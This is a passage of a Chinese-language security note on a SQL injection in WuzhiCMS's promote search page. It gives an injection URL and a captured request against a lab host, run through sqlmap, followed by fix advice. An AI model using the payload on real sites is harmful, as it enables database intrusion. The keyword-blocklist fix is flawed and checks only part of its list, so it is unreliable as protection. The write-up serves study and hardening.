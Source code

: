 ``````
http://10.1.1.6/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=1111%'*%23
```

 ![1559825805791](assets/1559825805791.png)

抓包把数据包放到sqlmap上跑

```html
GET /index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=1111%%27*%23 HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: PHPSESSID=e7qnm2dis4d18e28k6dla00gj1; XHV_uid=nX7CXoL%2FmTtWpu9BxI8h6Q%3D%3D; XHV_username=wP2OI%2B5dB0HgOUo0%2F9IuFA%3D%3D; XHV_wz_name=LCMQtntZUxcXN9%2BtUJuyXA%3D%3D; XHV_siteid=qs71GIOYdXiGHTG0Itnn2g%3D%3D
Upgrade-Insecure-Requests: 1
```

![1559826257426](assets/1559826257426.png)

## 3x40 漏洞修补建议

### 3x41使用htmlspecialchars函数在GET输入做一个过滤。

![1559822934334](../../%E7%AC%94%E8%AE%B0/SQL/assets/1559822934334.png)

### 3x42使用strpos函数在GET输入做判断是否存在关键字。

可以自定义关键字建立数组即可

```
function foo($arg)
{
    #echo $arg;
    $array = array("and", "or","xxx");
    for ($i=0; $i < 2; $i++) { 
    	if (strpos($arg,$array[$i])!== false){
        die("警告");
    }
    }
    return $arg;
}
```

![1559824483123](../../%E7%AC%94%E8%AE%B0/SQL/assets/1559824483123.png)

### 3x43使用PDO进行加固

把查询语句弄成一个对象，通过函数判断输入进来的值是否为数字，然后再通过正则替换内容

使用参数化查询可有效避免SQL注入